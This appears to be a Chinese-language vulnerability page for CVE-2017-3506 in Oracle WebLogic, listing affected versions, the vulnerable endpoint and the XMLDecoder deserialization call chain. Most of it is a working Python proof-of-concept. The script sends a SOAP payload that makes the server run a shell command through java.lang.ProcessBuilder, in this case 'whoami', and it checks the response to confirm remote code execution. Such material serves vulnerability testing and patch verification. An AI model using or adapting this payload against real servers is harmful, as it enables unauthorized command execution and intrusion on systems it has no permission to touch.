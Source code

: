 # CVE-2017-3506  #
## 受影响版本 ##
Oracle WebLogic Server10.3.6.0.0 版本 , Oracle WebLogic Server12.1.3.0.0 版本 , Oracle WebLogic Server12.2.1.1.0 版本 , Oracle WebLogic Server12.2.1.2.0 版本
## 平台 ##
windows 、linux 等多平台
## 测试系统 ##
ubuntu
## 类型 ##
远程
## 描述 ##
漏洞触发位置：wls-wsat.war

漏洞触发URL：/wls-wsat/CoordinatorPortType（POST）

漏洞的本质：构造SOAP（XML）格式的请求，在解析的过程中导致XMLDecoder反序列化漏洞

漏洞调用链:

分析漏洞调用链
weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest
weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld
## POC ##
<pre class="prettyprit lang-javascript">
import sys
import requests
import re
import logging

logging.basicConfig(filename=&#x27;Weblogic.log&#x27;,
                    format=&#x27;%(asctime)s %(message)s&#x27;,
                    filemode=&quot;w&quot;, level=logging.INFO)

VUL=[&#x27;CVE-2017-3506&#x27;]
headers = {&#x27;user-agent&#x27;: &#x27;ceshi/0.0.1&#x27;}

def poc(url,index):
    if not url.startswith(&quot;http&quot;):
        url = &quot;http://&quot; + url
    if &quot;/&quot; in url:
        url += &#x27;/wls-wsat/CoordinatorPortType&#x27;
    post_str = &#x27;&#x27;&#x27;
    &lt;soapenv:Envelope xmlns:soapenv=&quot;http://schemas.xmlsoap.org/soap/envelope/&quot;&gt;
      &lt;soapenv:Header&gt;
        &lt;work:WorkContext xmlns:work=&quot;http://bea.com/2004/06/soap/workarea/&quot;&gt;
          &lt;java&gt;
            &lt;object class=&quot;java.lang.ProcessBuilder&quot;&gt;
              &lt;array class=&quot;java.lang.String&quot; length=&quot;3&quot;&gt;
                &lt;void index=&quot;0&quot;&gt;
                  &lt;string&gt;/bin/bash&lt;/string&gt;
                &lt;/void&gt;
                &lt;void index=&quot;1&quot;&gt;
                  &lt;string&gt;-c&lt;/string&gt;
                &lt;/void&gt;
		&lt;void index=&quot;2&quot;&gt;
                  &lt;string&gt;whoami&lt;/string&gt;
                &lt;/void&gt;
              &lt;/array&gt;
              &lt;void method=&quot;start&quot;/&gt;
            &lt;/object&gt;
          &lt;/java&gt;
        &lt;/work:WorkContext&gt;
      &lt;/soapenv:Header&gt;
      &lt;soapenv:Body/&gt;
    &lt;/soapenv:Envelope&gt;
    &#x27;&#x27;&#x27;
    try:
        response = requests.post(url, data=post_str, verify=False, timeout=5, headers=headers)
        response = response.text
        response = re.search(r&quot;\&lt;faultstring\&gt;.*\&lt;\/faultstring\&gt;&quot;, response).group(0)
    except Exception:
        response = &quot;&quot;

    if &#x27;&lt;faultstring&gt;java.lang.ProcessBuilder&#x27; in response or &quot;&lt;faultstring&gt;0&quot; in response:
        logging.info(&#x27;[+]The target weblogic has a JAVA deserialization vulnerability:{}&#x27;.format(VUL[index]))
        print(&#x27;[+]The target weblogic has a JAVA deserialization vulnerability:{}&#x27;.format(VUL[index]))
    else:
        logging.info(&#x27;[-]Target weblogic not detected {}&#x27;.format(VUL[index]))
        print(&#x27;[-]Target weblogic not detected {}&#x27;.format(VUL[index]))
def run(rip,rport,index):
    url=rip+&#x27;:&#x27;+str(rport)
    poc(url=url,index=index)

if __name__ == &#x27;__main__&#x27;:
    dip = sys.argv[1]
    dport = int(sys.argv[2])
    run(dip,dport,0)
</pre>


